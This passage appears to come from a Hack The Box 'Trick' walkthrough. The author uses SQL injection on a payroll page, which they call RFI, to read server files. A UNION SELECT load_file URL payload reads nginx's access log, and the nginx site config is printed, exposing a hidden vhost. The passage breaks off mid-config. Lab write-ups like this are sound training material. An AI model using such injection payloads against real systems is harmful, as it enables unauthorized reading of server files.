 ```
```

Let's save this for later, but the key thing of interest here is that we can pull _some_ content from the local filesystem.

At this point I slammed my head against the wall trying to do further enumeration for another hour or so, and eventually took a look at the HTB Forum thread on this. Unfortunately, this spoiled things a bit for me (I was able to guess the other hostname based on `pre****-mar******` being in a comment), but I went back after to do some more digging on it!

# Enabled and Available

Earlier I mentioned that the server responses confirmed we're running Nginx. This means we _likely_ have a few static file locations we can look at. Since we have RFI here, let's try pulling some.

We can get the nginx `access.log` file - `view-source:http://preprod-payroll.trick.htb/manage_employee.php?id=1%20union%20select%201,2,load_file(%27/var/log/nginx/access.log%27),4,5,6,7,8`. This could actually provide you with some good content on a shared box, but I'm on a VIP instance so I can only see my own traffic - you might get one of the other hostnames leaked here if not using VIP which would be a nice win and honestly a good "real world" example of how this could work.

Another file we can look at for enumeration is `/etc/nginx/sites-available/default`:

```
server {
  listen 80 default_server;
  listen [::]:80 default_server;
  server_name trick.htb;
  root /var/www/html;

  index index.html index.htm index.nginx-debian.html;

  server_name _;

  location / {
    try_files $uri $uri/ =404;
  }

  location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
  }
}


server {
  listen 80;
  listen [::]:80;

  server_name preprod-marketing.trick.htb;

  root /var/www/market;
  index index.php;

  location / {
    try_files $uri $uri/ =404;
  }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
```